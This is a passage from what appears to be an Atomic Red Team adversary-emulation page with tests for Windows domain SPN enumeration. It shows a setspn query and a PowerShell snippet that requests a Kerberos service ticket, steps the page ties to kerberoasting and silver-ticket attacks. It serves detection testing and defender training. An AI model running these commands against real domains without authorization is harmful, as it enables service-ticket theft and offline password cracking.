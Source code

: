 **auto_generated_guid:** e6f4affd-d826-4871-9a62-6c9004b8fe06

#### Inputs:

| Name        | Description                       | Type   | Default Value   |
| ----------- | --------------------------------- | ------ | --------------- |
| domain_name | The Domain Name to lookup against | string | %USERDNSDOMAIN% |

#### Attack Commands: Run with `command_prompt`!

```cmd
setspn -T #{domain_name} -Q */*
```

#### Dependencies: Run with `powershell`!

##### Description: Computer must be domain joined

##### Check Prereq Commands:

```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Write-Host Joining this computer to a domain must be done manually
```

<br/>
<br/>

## Atomic Test #4 - Request A Single Ticket via PowerShell

The following test will utilize native PowerShell Identity modules to query the domain to extract the Service Principal Names for a single computer. This behavior is typically used during a kerberos or silver ticket attack.
A successful execution will output the SPNs for the endpoint in question.

**Supported Platforms:** Windows

**auto_generated_guid:** 988539bc-2ed7-4e62-aec6-7c5cf6680863

#### Attack Commands: Run with `powershell`!

```powershell
Add-Type -AssemblyName System.IdentityModel
$ComputerFQDN=$env:LogonServer.trimStart('\') + "." + $env:UserDnsDomain
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/$ComputerFQDN"
```

#### Dependencies: Run with `powershell`!

##### Description: Computer must be domain joined
